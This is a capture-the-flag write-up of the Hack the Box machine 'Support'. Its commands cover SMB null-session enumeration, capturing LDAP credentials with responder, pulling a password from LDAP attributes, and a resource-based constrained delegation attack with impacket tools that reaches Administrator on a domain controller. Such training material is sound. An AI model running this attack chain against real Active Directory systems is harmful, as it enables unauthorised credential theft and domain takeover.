

# Support
**Date:** January 26th 2024

**Author:** j.info

**Link:** [**Support**](https://app.hackthebox.com/machines/484) on Hack the Box

**Hack the Box Difficulty Rating:** Easy

<br>


<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`nmap -sC -sV -p- -oN nmap --min-rate=4500 support`

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-26 04:41:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

<br>

## SMB Digging

Null sessions are allowed giving us a list of shares.

`smbclient -N -L //support/`


Looking at the support-tools share shows us several familiar files.


None of the other shares end up having anything for us to use.

I try and use crackmapexec to look at users and other things but we're not allowed.

Looking through all of the files I downloaded from the support-tools share gives us a potential username. Unzipping UserInfo.exe.zip gives us UserInfo.exe which contains this when viewing with strings:



Feeding that username into crackmapexec now gets us a list of users.

`crackmapexec smb support -u '0xdf' -p '' --rid-brute`


<br>

## UserInfo.exe

I hit a wall with SMB enumeration and went back and looked at the files that were downloaded, and the one that sticks out is UserInfo.exe.

I check what type of file it is with `file UserInfo.exe` and see that it's Mono/.Net based.

NOTE: in order for mono to work on my end I had to install with `sudo apt install mono-complete`.

I try and run it which displays usage info and then try to find with a wildcard search and it tells you that -first or -last are required. After searching with a wildcard on -first it comes up with a connection error.


Running the same with the verbose -v flag shows it's running LDAP queries.

```
[*] LDAP query to use: (givenName=CommandLineParser.dll)
```

I decide to setup responder and point support.htb to my eth0 IP address in my /etc/hosts file, and then run UserInfo.exe again.

`sudo responder -I eth0 -v`

`mono UserInfo.exe find -first * -v`

It tries to make the LDAP request to my localhost and responder catches something interesting!


That gives us creds for the ldap user. Let's see what we can do with those.

I try and run through crackmapexec commands again but the credentials don't help there.

I see if I can evil-winrm over since port 5985 was open, but that doesn't work.

Moving over to ldapsearch we get results back, and a lot of them, so I output to a file so I can grap through.

`ldapsearch -x -H ldap://support -D 'ldap@support.htb' -w '<REDACTED>' -b 'DC=support,DC=htb' > ldap.txt`

Seeing if there are any passwords in the description field doesn't give us anything.

`cat ldap.txt | grep description`

Grepping for username and password doesn't give us anything.

Running `cat ldap.txt | grep `@support.htb'` confirms our users from earlier.

```
mail: smith.rosario@support.htb
mail: hernandez.stanley@support.htb
mail: wilson.shelby@support.htb
mail: anderson.damian@support.htb
mail: thomas.raphael@support.htb
mail: levine.leopoldo@support.htb
mail: raven.clifton@support.htb
mail: bardot.mary@support.htb
mail: cromwell.gerard@support.htb
mail: monroe.david@support.htb
mail: west.laura@support.htb
mail: langley.lucy@support.htb
mail: daughtler.mabel@support.htb
mail: stoll.rachelle@support.htb
mail: ford.victoria@support.htb
```

<br>

## Initial Foothold

I eventually just go find where the users are in the file and manually look through them, which finds me an additional field called info on the support user that has what looks to be a password in it.


I try and evil-winrm in and it works!

`evil-winrm -i support -u support -p '<REDACTED>'`


<br>

## System Enumeration

You can find the user.txt flag on the support desktop.


Looking through the rest of the support folders doesn't give us anything useful and we don't have access to any other user's folders.

I look around the hard drive at the root folder, through both program files folders, etc, and the only thing non-standard is the share folder that had all of the files from the SMB share we downloaded earlier.

Checking `whoami /priv` shows an out of the ordinary privilage: SeMachineAccountPrivilege.

I check my machine quota limit, which shows 10, so with this and the SeMachineAccountPrivilege we should be able to use a resource based constrained delegation (RBCD) attack.

`Get-ADObject -Identity (Get-ADDomain).DistinguishedName -Properties ms-DS-MachineAccountQuota`

```
ms-ds-machineaccountquota
-------------------------
                       10
```

The first thing I do is create a new machine on the box using impacket-addcomputer:

`impacket-addcomputer -computer-name 'newcomp$' -computer-pass Password1 -dc-ip 10.129.191.83 support/support:<REDACTED>`


After that I use impacket-rbcd to configure delegation:

`impacket-rbcd -delegate-to DC$ -delegate-from newcomp$ -dc-ip 10.129.191.83 -action write support/support:<REDACTED>`


I check to see if the Administrator user is in the protected users group, which they're not. If they were we would not be able to impersonate them.

`net group "Protected Users"`


After that impacket-getST can create a new service ticket that will allow us to impersonate the Administrator user on DC. You'll also need to set an environmental variable named KRB5CCNAME that points to the newly created Administrator.ccache file.

NOTE: If you already have the KRB5CCNAME environmental variable set before you run the impacket-getST command it will produce an error message saying whichever file it's set to can't be found so make sure to unset the variable before running impacket-getST.

`impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.129.191.83 support/newcomp$:Password1`


<br>

## System

Now we can connect over as the Administrator user using impacket-psexec:

`impacket-psexec -k dc.support.htb`


You can find the root.txt flag on the administrator desktop:


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Finding an open SMB share that allows null sessions and using **smbclient** to download files off of it
- Using **mono** to run a Windows binary from the share on our Kali box that looks up user information via LDAP, and pointing it to our local host with **responder** setup to capture credentials
- Finding another set of credentials using **ldapsearch**
- Seeing we have **SeMachineAccountPrivilege** and have a machine account quota of 10 allowing us to use a **Resource Based Constrained Delegation (RBCD)** attack to escalate to Administrator
- Using **impacket-addcomputer**, **impacket-rbcd**, **impacket-getST**, and **impacket-psexec** to impersonate the Administrator user and connect over as them

<br>

Many thanks to:
- [**0xdf**](https://app.hackthebox.com/users/4935) for creating this CTF
- **Hack the Box** for hosting this CTF

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)